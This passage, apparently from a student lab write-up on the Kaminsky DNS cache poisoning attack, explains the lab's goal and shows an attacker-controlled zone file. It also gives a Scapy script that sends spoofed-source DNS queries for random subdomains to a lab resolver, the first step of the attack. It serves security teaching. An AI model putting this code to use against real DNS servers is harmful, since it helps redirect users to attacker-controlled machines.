 In this case, we get a different IP for the same domain: `1.2.3.5`. The request is done specifically to the `ns.attacker32.com` name server and, as its value was cached due to the first DNS query performed, we contact it directly, and according to the `/etc/bind/zone_example.com` file in the attacker's name server, this should be the corresponding IP address for the `www.example.com` domain, as shown here:

```
root@9ab2d93f7aeb:/# cat /etc/bind/zone_example.com 
$TTL 3D
@       IN      SOA   ns.example.com. admin.example.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS    ns.attacker32.com.

@       IN      A     1.2.3.4
www     IN      A     1.2.3.5
ns      IN      A     10.9.0.153
*       IN      A     1.2.3.6
```

## Our goal

Our goal in this lab is to redirect the user to a machine B when he tries to get to a machine A using A's domain name. This can be done by poisoning the DNS server's cache so that when he requests the address corresponding to A's domain name, it answers with B's address. Overall, that's the entire purpose of the Kaminsky attack itself.

> Implementing the Kaminsky attack all at once is quite challenging, so we break it down into several sub-tasks. In Task 2, we construct the DNS request for a random hostname in the `example.com` domain. In Task 3, we construct a spoofed DNS reply from `example.com`'s nameserver. In Task 4, we put everything together to launch the Kaminsky attack and in Task 5 we verify the impact of the attack.

## Task 2

Since the Kaminsky Attack was split into several tasks, the first goal is to make the initial DNS Request.
This task is successful if we can trigger the DNS Server into sending DNS Queries so that we can spoof DNS Replies in the future. The following python script shows how a simple DNS request can be built using Scapy:

```python
from scapy.all import * 
import random, string

def randomword(length):
   letters = string.ascii_lowercase
   return ''.join(random.choice(letters) for i in range(length))

attackerIP = "10.9.0.1"
apolloIP = "10.9.0.53"

Qdsec = DNSQR(qname=randomword(5) + '.example.com')
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0,arcount=0, qd=Qdsec)

ip = IP(dst=apolloIP, src=attackerIP)
udp = UDP(dport=53, sport=RandShort(), chksum=0)
request = ip/udp/dns

send(request) 
```
